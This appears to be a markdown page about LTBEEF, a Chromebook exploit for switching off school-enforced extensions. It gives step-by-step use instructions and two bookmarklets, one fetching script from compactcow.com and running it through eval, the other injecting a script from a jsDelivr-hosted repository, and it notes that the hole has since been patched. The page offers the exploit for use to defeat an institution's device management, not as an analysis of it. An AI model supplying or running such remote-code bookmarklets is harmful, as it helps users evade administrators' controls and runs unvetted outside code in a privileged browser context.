


# LTBEEF

LTBEEF (Literally The Best Exploit Ever Found) is an exploit found by Bypassi (Bypassi#7037) in September 2022 and is a great way to disable spyware installed on your Chromebook by your school.

## How to use LTBEEF

Use either of the two bookmarklets below. The instructions are the same for both.

1. Copy the Javascript code from either of the two bookmarklets below
2. Make a new bookmark on your Chromebook
3. Put the Javascript code in the URL section of the bookmark
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. If that page does not work, you can just change the end of the URL to anything else, like https://chrome.google.com/webstoreYAAAAAAAAAAAAAAAY
6. Click on the bookmark you made
7. Switch off the extensions you don't want to have anymore.
8. You're done! The extension should now be disabled. 

**Please note that this exploit has been patched for quite some time**

## Bookmarklets

<div class="grid cards" markdown>

-   CompactCow

    
    ```js

    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```


-   Ingot

    

    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
</div>